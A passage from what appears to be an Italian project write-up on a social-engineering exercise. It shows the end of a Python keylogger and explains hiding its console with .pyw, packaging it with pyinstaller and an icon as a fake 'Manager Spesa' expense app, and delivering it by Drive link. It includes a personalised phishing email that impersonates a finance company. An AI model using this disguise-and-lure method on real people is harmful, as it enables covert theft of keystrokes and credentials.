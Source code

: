 ```python
        if key == 'Key.esc':
            return False

    def start(self):
        with Listener(on_press=self.on_press, on_release=self.on_release) as listener:
            listener.join()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.start()

```

Ho salva lo script in formato .pyw perchè questa estensione permette di eseguire il programma senza aprire una finestra di console separata. Alla fine della programmazione trasformo lo script da .py a .exe sfruttando la libreria pyinstaller (per specifiche vedi note precedenti per la creazione del .exe); essa prende lo script in Python e genera un singolo file eseguibile che contiene tutte le dipendenze necessarie rendendo possibile l'esecuzione del programma su computer con Python non installato. Ho scelto una immagine a mio piacimento (con nome Icona.jpg) e l'ho convertita in .ico (attraverso un sito web [[9]](https://convertio.co/it/)), dopo aver caricato la libreria pyinstaller sul sistema, eseguo il seguente comando:

```shell
pyinstaller --onefile --icon=Icona.ico Gestore_di_spesa.py
```

Questo comando creerà nella directory che ho scelto il file Gestore_di_spesa.exe con l'immagine Icona.ico da me scelta. Successivamente ho cambiato il nome dell'eseguibile in "Manager Spesa".

L'eseguibile lo invio poi via e-mail come link attraverso Drive (a causa della grandezza del file) con il corpo del testo citato prima.

### 2. Invio mail personalizzata

Utilizzo le informazioni raccolte su Alessandro, per creare un'e-mail personalizzata. L'e-mail finge di provenire da una rinomata azienda del settore finanziario che propone di testare in esclusiva una nuova applicazione di gestione della spesa. Il sottostante è il testo della mail che ho scritto:

<br>

<blockquote>
Da: teamgestorespese@gmail.com

A: <Alessandro.finanzaviva@gmail.com>

Oggetto: Partecipazione Esclusiva al Test del Nuovo Software di Gestione delle Spese

Ciao Alessandro,

Spero che tu stia bene! Siamo entusiasti di annunciarti che sei stato scelto per partecipare in esclusiva al test del nostro nuovo software per la Gestione Personale delle Spese.

Abbiamo notato il tuo interesse e la tua competenza nel campo finanziario e crediamo che il tuo feedback possa essere estremamente prezioso per noi mentre continuiamo a perfezionare e migliorare il nostro prodotto.
